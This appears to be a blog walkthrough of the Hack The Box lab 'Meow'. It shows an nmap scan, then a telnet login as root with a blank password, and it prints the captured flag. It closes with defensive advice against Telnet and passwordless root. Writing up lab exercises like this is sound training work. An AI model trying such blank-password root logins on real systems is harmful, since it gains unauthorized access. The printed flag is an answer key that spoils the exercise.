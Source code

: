 ```yaml
---
layout: post
title: "Meow – Hack The Box"
categories: htb
date: 2025-07-18
---
```


## 🧠 Summary

Meow is an easy Linux machine that highlights the risks of using **Telnet** with weak or no authentication. We'll start by connecting to the HTB network using OpenVPN, enumerate services using Nmap, exploit the open Telnet service, and capture the flag.

---

## 🛠️ Tools Used

- **OpenVPN** – Connect to HTB VPN
- **ping** – Test connectivity
- **nmap** – Scan for open ports
- **telnet** – Remote access to the target

---

## 🖥️ Target Info

- IP: `10.129.28.108`
- OS: Linux
- Service: Telnet (port 23)

---

## 🚀 Steps to Root

### 1. Connect to HTB VPN
Use the `.ovpn` file provided by Hack The Box:

```bash
sudo openvpn file-name.ovpn
```
![Connecting to HTB VPN](/assets/img/htb/meow/vpn.jpg)

### 2. Verify Connectivity
Check if you can reach the target IP using ping:

```bash
ping 10.129.28.108
```
![Verifying Connection](/assets/img/htb/meow/ping.jpg)

### 3. Scan the Target with Nmap
Run an Nmap scan to find open ports and services:
```bash
nmap -sV -Pn 10.129.28.108
```
Result (**telnetd** is a sign no password is needed for login):

![Nmap Result](/assets/img/htb/meow/nmapresult.jpg)

### 4. Exploit Telnet
Since Telnet is open, connect using:
```bash
telnet 10.129.28.108
```
When asked for a username:
```bash
login: root
Password: (leave blank and press Enter)
```
![Telnet Login](/assets/img/htb/meow/telnet.jpg)

### 5. Capture the Flag
Once inside:
```bash
ls -la
cat flag.txt
```
Flag:
```bash
b40abdf23665f766f9c61ecba8a4c19
```
![Flag Found](/assets/img/htb/meow/flag.jpg)

### Key Takeaways:
- Telnet is insecure and should not be used on modern systems.
- Always disable Telnet and replace it with SSH.
- Never allow root login without a password.
